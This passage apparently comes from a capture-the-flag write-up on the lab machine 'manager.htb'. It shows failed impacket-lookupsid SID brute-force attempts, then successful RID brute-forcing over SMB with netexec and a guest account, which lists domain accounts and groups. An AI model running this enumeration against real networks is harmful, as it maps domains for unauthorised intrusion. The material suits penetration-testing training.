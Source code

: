 ```

# impacket-lookupsid dc01.manager.htb 2000 -target-ip 10.10.11.236 -port 445 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at dc01.manager.htb
[*] StringBinding ncacn_np:dc01.manager.htb[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid manager.htb 2000 -target-ip 10.10.11.236 -port 445 -domain-sids -no-pass 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid manager.htb 2000 -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] Cannot request session (Called Name:MANAGER.HTB)

# impacket-lookupsid manager.htb -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] Cannot request session (Called Name:MANAGER.HTB)

# impacket-lookupsid 10.10.11.239 -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.239
[*] StringBinding ncacn_np:10.10.11.239[\pipe\lsarpc]
[-] Cannot request session (Called Name:10.10.11.239)
```

###### `Enumerating Users through Guest Account & netexec smb`
```
# netexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute 5000
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
```